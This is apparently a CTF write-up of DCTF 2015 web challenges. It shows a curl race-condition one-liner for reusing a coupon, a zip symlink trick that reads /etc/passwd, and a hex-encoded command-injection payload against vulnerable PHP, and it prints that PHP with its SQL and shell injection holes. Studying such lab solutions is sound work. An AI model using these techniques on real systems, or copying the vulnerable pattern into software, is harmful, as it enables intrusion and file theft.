 ```yaml
---
title:      DCTF 2015 - Web Challenges
author:     fcremo
date:       2015-10-11 09:00:00
summary:    Web web web!
categories: DCTF2015 Web
tags:
 - DCTF
 - Web
---
```

## Web100
This challenge was quite straightforward: we only had a textual input field and the suggestion to use the coupon (DCTF_ADD_MONEY).
That coupon could normally be used just a single time, but the goal was to get more money than a single coupon would give you.
The challenge could be solved using just the shell and a one liner:
```
$ curl --data "code=DCTF_ADD_MONEY" -b "PHPSESSID=abcdefghirandomrandom" "http://10.13.37.2/" & curl --data "code=DCTF_ADD_MONEY" -b "PHPSESSID=abcdefghirandomrandom" "http://10.13.37.2/"
```

## Web200
We had a service that allowed you to upload zip files, decompressed them and let you download the contents. There was a comment in the HTML source: `getent passwd | grep someuser | cut ...` (sorry, I haven't saved the specific command).
I created a zip file containing a simbolic link to `/etc/passwd`:
```
$ ln -s /etc/passwd mylink
$ zip archive.zip mylink
```
I uploaded the archive and... nothing, the website didn't display my file.
The service allowed you to see the debug logs of the unzip command executed server side and in the logs I could see my link was being extracted correctly, so I tried to manually download the passwd file manipulating the download url of another archive I uploaded earlier and it worked!

## Web300
Coming soon!

## Web400 (CSS Engineer)
The php code that allowed you to get the user images used `cat`
```
$ curl "http://10.13.37.5/?id=2&usr=1"
cat: images/2_6.jpg: No such file or directory
```
 and was vulnerable to command injection.
 because it constructed the path to output from user input without sanitizing it correctly.

Again, this challenge was doable with a one liner:
```
$ curl `python2 -c "print 'http://10.13.37.5/?id=0x' + '../*; #'.encode('hex') + '&usr=1"`
```

The reason this works was because id was used in an SQL query and got converted to a string:
{%highlight php%}
if(isset($_GET['id'], $_GET['usr'])) {
    if(!is_numeric($_GET['id']) || !is_numeric($_GET['usr'])) {
        die('ID or User ID must be numeric, obviously. Cheers from Bucharest, awesome girls, smoke free. :-) <br><img src="data:image/jpeg;base64,...');
	}

    $q = mysql_query('SELECT concat('.$_GET['id'].',"_",image) as path FROM images WHERE id="'.$_GET['usr'].'"');
    $path = mysql_result($q, 0);

    header('Content-Type: image/jpeg');
    echo shell_exec("cat images/$path 2>&1");
} else {
    echo '<h1>List of some users! I don\'t know CSS! :(</h1>';
    $q = mysql_query('SELECT * FROM `images`');
    while($row = mysql_fetch_array($q)) {
        echo '<h3>'.$row['user'].'</h3>';
        echo '<img src="?id='.$row['id'].'&usr='.$row['id'].'">';
    }
}
{% endhighlight %}
